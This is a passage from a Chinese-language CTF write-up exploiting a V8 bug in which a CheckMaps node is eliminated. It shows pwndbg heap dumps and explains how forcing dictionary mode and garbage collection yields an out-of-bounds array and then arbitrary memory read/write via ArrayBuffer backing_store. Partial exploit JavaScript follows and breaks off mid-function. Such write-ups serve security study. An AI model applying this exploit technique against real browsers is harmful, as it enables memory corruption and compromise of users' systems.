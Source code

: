 ```
pwndbg&gt; job 0x2a376d0856f1
0x2a376d0856f1: [JS_OBJECT_TYPE] in OldSpace
 - map: 0x23d4daa081f1 &lt;Map(HOLEY_ELEMENTS)&gt; [DictionaryProperties]
 - prototype: 0x332bb06046d9 &lt;Object map = 0x23d4daa022f1&gt;
 - elements: 0x0f84c5302cf1 &lt;FixedArray[0]&gt; [HOLEY_ELEMENTS]
 - properties: 0x2a376d08ddd1 &lt;NameDictionary[53]&gt; `{`
   #a: 0x2a376d08e0e1 &lt;HeapNumber 1.1&gt; (data, dict_index: 1, attrs: [WEC])
   #e: 0x2a376d08e0f1 &lt;HeapNumber 1.5&gt; (data, dict_index: 5, attrs: [WEC])
   #c: 0x2a376d08e101 &lt;HeapNumber 1.3&gt; (data, dict_index: 3, attrs: [WEC])
   #b: 0x2a376d08e111 &lt;HeapNumber 1.2&gt; (data, dict_index: 2, attrs: [WEC])
 `}`
pwndbg&gt; x/10xg 0x2a376d0856f0
0x2a376d0856f0: 0x000023d4daa081f1      0x00002a376d08ddd1
0x2a376d085700: 0x00000f84c5302cf1      0x000023d4daa0cbb1
0x2a376d085710: 0x00000f84c5302cf1      0x00000f84c5302cf1
0x2a376d085720: 0x00002a376d08dcb9      0x00002a376d08dcf9
0x2a376d085730: 0x00002a376d08dd41      0x00002a376d08dd89
pwndbg&gt; job 0x2a376d085709
0x2a376d085709: [JS_OBJECT_TYPE] in OldSpace
 - map: 0x23d4daa0cbb1 &lt;Map(HOLEY_ELEMENTS)&gt; [FastProperties]
 - prototype: 0x2a376d082291 &lt;Memory map = 0x23d4daa0cb11&gt;
 - elements: 0x0f84c5302cf1 &lt;FixedArray[0]&gt; [HOLEY_ELEMENTS]
 - properties: 0x0f84c5302cf1 &lt;FixedArray[0]&gt; `{`
    #buf: 0x2a376d08dcb9 &lt;ArrayBuffer map = 0x23d4daa04371&gt; (data field 0)
    #f64: 0x2a376d08dcf9 &lt;Float64Array map = 0x23d4daa04551&gt; (data field 1)
    #u32: 0x2a376d08dd41 &lt;Uint32Array map = 0x23d4daa04191&gt; (data field 2)
    #bytes: 0x2a376d08dd89 &lt;Uint8Array map = 0x23d4daa02b11&gt; (data field 3)
 `}`
```

### <a class="reference-link" name="%E5%AE%9E%E9%99%85%E5%88%A9%E7%94%A8"></a>实际利用

现在回到这道题上，前面已经知道通过一些操作让对象属性从`fast mode`变成`dictionary mode`，在通过多次内存操作触发GC，我们的对象将被移至`old space`，此时原来存放`in-object`属性的偏移0x18处起始的地方存放的是其他被移动到`old space`的对象，相当于对象已经发生了`变化`，由于漏洞的存在，`CheckMaps`节点被消除，无法检测出对象的改变，仍然按照原来访问`in-object`的方式来读写对象数据，此时读写的就是其他对象中的数据了，也既越界读写。

将对象从`fast mode`转化为`dictionary mode`的方式目前知道的是：
- victim**obj.<em>_defineGetter**</em>(‘xx’,()=&gt;2);
- delete victim_obj[‘d’];
如果紧跟着obj后面的是我们申请的一个`JSArray`，那么越界修改数组的length字段是可以做到的，由此我们可以得到一个很大的数组越界，后续的利用就很简单了，查找Arraybuffer的`backing_store`相对于越界数组的下标便可做到任意地址读写。

现在的问题是如何让两个对象在移动至`old space`之后还能紧挨着呢？经过多次尝试发现，在trigger_vul中会有对`victim_obj`的访问，若是我在`foo4vul`中不加入对`arr`的访问，那么这两个对象移动后相差的距离一定会很大，所以我猜测由于存在对`victim_obj`的访问，所以它会先被移动到`old space`，后续的arr虽然也会移动，但是这之间已经有多个对象移动到`old space`了，因此导致二者的偏移很大。而在`foo4vul`中加入`arr`的访问，果然两个对象的地址是紧挨着的，而且非常稳定！

**还有一个小问题：之前遇到了移动后`victim_obj`位于`arr`后面的情况，调换了一下`foo4vul`的参数顺序`a,b,o,arr-&gt;a,b,arr,o`即可。**

拿到越界数组的部分代码如下：

```
let victim_obj = `{`x:1,y:2,z:3,l:4,a:5,b:6,c:7,d:8,e:9`}`;
    let arr = [1.1,1.2,1.3,1.4,1.5,1.6];
    var OPT_NUM = 0x10000;

    function foo4vul(a,b,arr,o)`{`
        for(let i=0;i&lt;OPT_NUM;++i)`{``}`
        let ret = o.x+arr[4];
        a&amp;b;
        o.l = 0x667788;
        return ret;
    `}`

    // trigger vul to get an OOB Array
    function trigger_vul()`{`
```